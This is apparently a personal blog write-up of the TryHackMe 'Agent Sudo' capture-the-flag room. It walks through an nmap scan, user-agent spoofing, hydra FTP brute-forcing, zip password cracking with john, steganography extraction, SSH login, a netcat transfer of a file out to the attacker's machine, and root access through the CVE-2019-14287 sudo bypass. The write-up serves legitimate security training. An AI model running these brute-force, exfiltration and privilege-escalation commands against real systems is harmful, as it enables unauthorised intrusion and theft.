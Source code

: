 ```yaml
---
tagline: agentsudo
title: Agent Sudo - Writeup
description: Mom, I think there are aliens outside...
banner: /blog/agentsudobanner.jpeg/
banner_alt: better late than never, better late than never
date: '2024-03-4'
---
```


## Nmap

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.137.85
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-03 22:53 EST
Nmap scan report for 10.10.137.85
Host is up (0.094s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.10 seconds
```

- 3 open ports

## Enumerate cont'd

- To redirect to the secret page, we need to modify the **user-agent** using cURL. I used the command ```curl -A <useragent> 10.10.137.85 -L``` and trying *R* as a user agent shows this.

![Image showing result of R](/blog/agentsudopics/useragentcurl.png 'Fig.1')

- When we try C we get this

![Image showing result of C](/blog/agentsudopics/chris.png 'Fig.2')

- Now we know his name is chris and that his password is weak (not actually weak)

## Hash cracking and brute-force

- I cracked the FTP Password using this command ```hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.194.92 -V```

![Image showing ftp cracked](/blog/agentsudopics/ftpcracked.png 'Fig.3')

- Next is logging into the ftp server with ```ftp user@ip```. Inside we find a txt file that reads

```txt:Text Editor
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- Lets also ```get``` the other images. Inside *cutie.png*, we find a zip file (binwalk'ed) that is password protected.

```bash:Terminal
┌──(vipin㉿vipin)-[~/Downloads]
└─$ zip2john 8702.zip > 8702.hash
                                                                                                      
┌──(vipin㉿vipin)-[~/Downloads]
└─$ john 8702.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 ASIMD 4x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:02 DONE 2/3 (2024-03-04 21:35) 0.4975g/s 22230p/s 22230c/s 22230C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- Inside the zip file was a txt file named *To_agentR.txt* which says this

```txt:Text Editor
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

- It seem like the text is in base64

```bash:Terminal
┌──(vipin㉿vipin)-[~/Downloads]
└─$ echo 'QXJlYTUx' | base64 -d
Area51           
```

- Now that we have the steg password lets extract text the other image

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ steghide --extract -p Area51 -sf cute-alien.jpg
wrote extracted data to "message.txt".

┌──(vipin㉿vipin)-[~]
└─$ cat message.txt                                                                   
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

- Thats a LOT of information, enough to get us to the next section.

## Capture the user flag

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ ssh james@10.10.194.92                         
The authenticity of host '10.10.194.92 (10.10.194.92)' can't be established.
ED25519 key fingerprint is SHA256:rt6rNpPo1pGMkl4PRRE7NaQKAHV+UNkS9BfrCy8jVCA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.194.92' (ED25519) to the list of known hosts.
james@10.10.194.92's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar  5 02:49:58 UTC 2024

  System load:  0.0               Processes:           92
  Usage of /:   39.7% of 9.78GB   Users logged in:     0
  Memory usage: 31%               IP address for eth0: 10.10.194.92
  Swap usage:   0%


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
```

- Now for the next question, utilizing netcat I transfered the file to my vm

```bash:Terminal
james@agent-sudo:~$ nc -w 5 10.6.22.229 6969 < /home/james/Alien_autospy.jpg

# on another window

┌──(vipin㉿vipin)-[~/Desktop]
└─$ nc -lvnp 6969 > Alien_autopsy.jpg
```

- Now using google search, we find this various results but no fox news, but using the other articles I learned that some guy named Roswell faked an alien autopsy which gives us the answer *roswell alien autopsy*.

## Privilege escalation

> it's the most wonderful time of the Machine

- We start by running ```find / -uid 0 -perm -4000 -type f 2>/dev/null``` to find exploitable SUID Binaries and sudo seems to be one.

```bash:Terminal
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

- A little searching find us [this](https://www.exploit-db.com/exploits/47502) exploit which tells us the CVE (CVE-2019-14287) & how to privilege escalate!

```bash:Terminal
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cat /root/root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

### MACHINE PWN'ED 😎

![My Tryhackme badge yuh](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)
